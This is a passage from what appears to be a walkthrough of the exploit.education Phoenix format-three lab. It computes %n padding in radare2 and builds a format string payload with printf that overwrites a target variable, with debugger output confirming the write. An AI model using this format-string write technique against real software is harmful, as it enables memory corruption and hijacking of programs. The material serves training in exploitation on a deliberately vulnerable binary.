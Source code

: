 The first time, the calculation for the byte to be written is as follows: `"the byte we want to write" - "the outputted byte" + "the width that was specified to the %x specifier before the %n specifier"`.

{% highlight nasm %}
[0x0804855e]> ? 0x45 - 0x59 + 8
int64   -12
uint64  18446744073709551604
hex     0xfffffffffffffff4
octal   01777777777777777777764
unit    16E
segment fffff000:0ff4
string  "\xf4\xff\xff\xff\xff\xff\xff\xff"
fvalue: -12.0
float:  nanf
double: nan
binary  0b1111111111111111111111111111111111111111111111111111111111110100
trits   0t11112220022122120101211020120210210211111
{% endhighlight %}

The result is a negative integer, which is not appropriate. To circumvent that, increase the value of the byte to be written by adding an ace so that the result is a positive integer.

*Note that there are probably better methods that i am not aware of.*

{% highlight nasm %}
[0x0804855e]> ? 0x145 - 0x59 + 8
int32   244
uint32  244
hex     0xf4
octal   0364
unit    244
segment 0000:00f4
string  "\xf4"
fvalue: 244.0
float:  0.000000f
double: 0.000000
binary  0b11110100
trits   0t100001
{% endhighlight %}

Now, the exploit needs to be updated.

{% highlight shell %}
$ echo $(printf "\x44\x98\x04\x08AAAA\x45\x98\x04\x08AAAA\x46\x98\x04\x08AAAA\x47\x98\x04\x08")%x%x%x%x%x%x%x%x%x%x%244x%n > pattern
{% endhighlight %}

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/format-three -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7f66d4b]> aas
Cannot analyze at 0x080485e0
[0xf7f66d4b]> db 0x0804855e
[0xf7f66d4b]> px/xw @ obj.changeme
0x08049844  0x00000000                                   ....
[0xf7f66d4b]> dc
Welcome to phoenix/format-three, brought to you by https://exploit.education
hit breakpoint at: 804855e
[0x0804855e]> px/xw @ obj.changeme
0x08049844  0x00000145                                   E...
{% endhighlight %}
